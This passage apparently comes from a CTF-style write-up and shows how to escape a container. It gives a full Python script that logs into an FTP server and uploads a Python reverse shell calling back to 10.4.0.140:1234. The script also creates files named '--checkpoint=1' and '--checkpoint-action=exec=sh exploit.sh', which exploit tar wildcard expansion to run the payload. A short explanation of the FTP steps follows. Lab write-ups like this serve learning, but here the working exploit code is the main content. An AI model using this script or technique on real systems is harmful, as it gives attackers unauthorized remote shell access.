 **So here's what i am gonna do**

- Create a python script to upload a reverse shell to that `files` so that when the connection is established we can escape the container

**But how?**

- When our exploit is at the ftp it gets executed using **TAR Wildcard Exploitation**

Here's the python script i will explain it as well

```python
#!/usr/bin/env python3.7

from ftplib import FTP
import io

#Connecting to the host
ftp = FTP(host= '172.20.0.1')

#login for ftp user
ftp.login(user= "backupmgr", passwd= "[REDACTED]")
ftp.getwelcome()

ftp.set_pasv(False)
ftp.dir()
ftp.cwd('/files')

payload = io.BytesIO(b'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.0.140",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
empty = io.BytesIO(b'')

ftp.storlines('STOR exploit.sh', payload)
ftp.storlines('STOR --checkpoint=1', empty)
ftp.storlines('STOR --checkpoint-action=exec=sh exploit.sh', empty)

ftp.quit()
```

### **Explanation**

- From the `ftplib` we are going to import `FTP` module which is required for ftp connection
- We then provide the `host` , `username` and the `password` for the ftp server.

We set it to active mode because the passive mode won't work out

```python
#In the active mode -  the data connection is incoming to the FTP client and outgoing from the FTP server
# In the passive mode - the data connection is incomting to the FTP server and outfgoing from the FTP client
ftp.set_pasv(False) #sets it to the active mode
```

- Then we are going to change our directory to `/files`
